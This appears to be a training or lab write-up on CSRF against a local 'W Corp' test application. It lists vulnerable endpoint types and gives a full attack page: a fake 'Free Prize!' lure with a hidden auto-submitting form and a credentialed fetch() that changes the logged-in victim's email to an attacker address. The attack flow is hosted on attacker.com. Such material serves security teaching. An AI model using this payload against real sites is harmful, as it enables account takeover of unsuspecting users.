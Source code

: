 ### 🔍 Vulnerability Locations

- Any state-changing operation without CSRF protection
- Password change endpoints
- Profile update endpoints
- File upload forms
- Admin actions

### 🔓 Step-by-Step Exploitation

#### Attack 1: Change User Email via CSRF

```html
<!-- Create malicious page: csrf-email-change.html -->
<!DOCTYPE html>
<html>
<head>
    <title>Free Prize!</title>
</head>
<body>
    <h1>Congratulations! Click to claim your prize!</h1>
    
    <!-- Hidden form that submits automatically -->
    <form id="csrf-form" method="POST" action="http://localhost:3000/wcorp/api/user/update" style="display:none;">
        <input type="hidden" name="email" value="hacked@attacker.com">
    </form>
    
    <script>
        // Auto-submit when page loads
        document.getElementById('csrf-form').submit();
    </script>
    
    <!-- Or use AJAX -->
    <script>
        // If victim is logged in, their cookies will be sent
        fetch('http://localhost:3000/wcorp/api/user/update', {
            method: 'POST',
            credentials: 'include',  // Include cookies
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({
                email: 'hacked@attacker.com'
            })
        });
    </script>
</body>
</html>
```

**Attack Flow:**
1. Attacker hosts `csrf-email-change.html` on their server
2. Attacker sends link to victim: `https://attacker.com/csrf-email-change.html`
3. Victim clicks link while logged into W Corp
4. Victim's email is changed without their knowledge
